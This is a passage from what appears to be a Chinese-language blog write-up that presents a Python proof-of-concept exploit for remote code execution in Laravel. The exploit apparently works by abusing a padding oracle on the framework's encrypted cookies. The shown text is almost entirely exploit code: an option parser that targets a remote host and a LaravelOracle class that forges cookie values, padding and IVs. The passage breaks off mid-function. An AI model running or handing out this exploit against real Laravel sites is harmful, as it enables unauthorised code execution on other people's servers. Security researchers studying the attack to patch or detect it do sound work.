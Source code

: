 下面是我根据上面的原理编写的 exploit

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from __future__ import print_function

import re
import sys
import json
import struct
import base64
import requests
from optparse import OptionParser

def init_parser():
    print("")
    print("=== POC for laravel RCE ===")
    print("=== by fate0            ===")
    print("=== fate0@fatezero.org  ===")
    print("=== weibo.com/fatez3r0  ===")
    print("")
    usage = "Usage: %prog --host http://www.fatezero.org"
    parser = OptionParser(usage=usage, description="POC for laravel RCE")
    parser.add_option("--host", type="str", dest="host", help="remote host name")
    return parser

class LaravelOracle(object):
    """
    提供 32 位的 payload，也就是明文 P
    返回相对应的 32byte IV
    """
    block_size = 32

    def __init__(self, domain, plaintext, ciphertext):
        self.domain = domain
        self.timeout = 7
        self.re_pattern = re.compile("Error\sat\soffset\s\d{1,2}\sof\s([\d]{1,2})\sbytes", re.DOTALL | re.M)
        self.plaintext = bytearray(plaintext)  # 32byte 的 payload
        self.ciphertext = bytearray(ciphertext)  # 32byte 的 ciphertext
        self.cv = bytearray()   # 正确的 cv (中间值)
        self.iv = bytearray()
        self.cookie = {
            'mac': 0,
            'value': self.ciphertext,
            'iv': bytearray('0'*32)
        }
        self.modify_cookie_mac()

    @staticmethod
    def add_padding(value):
        """
        对 value 进行 padding
        """
        pad = LaravelOracle.block_size - (len(value) % LaravelOracle.block_size)
        return "{value}{padding}".format(value=value, padding=chr(pad)*pad)

    @staticmethod
    def format_cookie(cookie):
        """
        将易操作的 cookie 转换成 laravel 的 cookie
        """
```